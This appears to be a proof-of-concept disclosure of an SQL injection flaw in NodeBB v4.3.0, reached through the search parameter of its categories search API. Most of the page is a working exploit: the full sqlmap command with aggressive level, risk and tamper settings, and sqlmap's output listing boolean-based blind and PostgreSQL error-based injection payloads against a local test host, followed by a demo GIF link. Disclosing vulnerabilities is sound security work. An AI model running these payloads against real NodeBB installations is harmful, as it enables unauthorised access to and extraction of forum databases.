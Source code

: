 NodeBB v4.3.0.


Command used:

```
python3 ~/tools/sqlmapproject-sqlmap-c8c7fee/sqlmap.py -r nodebb
--level 5 --risk 3 -a --banner --batch --tamper
least,charencode,escapequotes
```

SQL Injection details from sqlmap:
```
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://nodebb.local.yunohost/api/v3/search/categories?search='
AND 4638=4638--
tbby&query[cid]=-1&parentCid=0&selectedCids[]=-1&privilege=topics:read&states[]=watching&states[]=tracking&states[]=notwatching&showLinks=

    Type: error-based
    Title: PostgreSQL OR error-based - WHERE or HAVING clause
    Payload: http://nodebb.local.yunohost/api/v3/search/categories?search=-3217'
OR 1251=CAST((CHR(113)||CHR(98)||CHR(118)||CHR(98)||CHR(113))||(SELECT
(CASE WHEN (1251=1251) THEN 1 ELSE 0
END))::text||(CHR(113)||CHR(113)||CHR(118)||CHR(98)||CHR(113)) AS
NUMERIC)-- WsPn&query[cid]=-1&parentCid=0&selectedCids[]=-1&privilege=topics:read&states[]=watching&states[]=tracking&states[]=notwatching&showLinks=
---
```
Demo:

![](https://github.com/4rdr/proofs/blob/main/gifs/NodeBB-v4.3.0.-SQL-Injection-via-search-parameter.gif?raw=true)
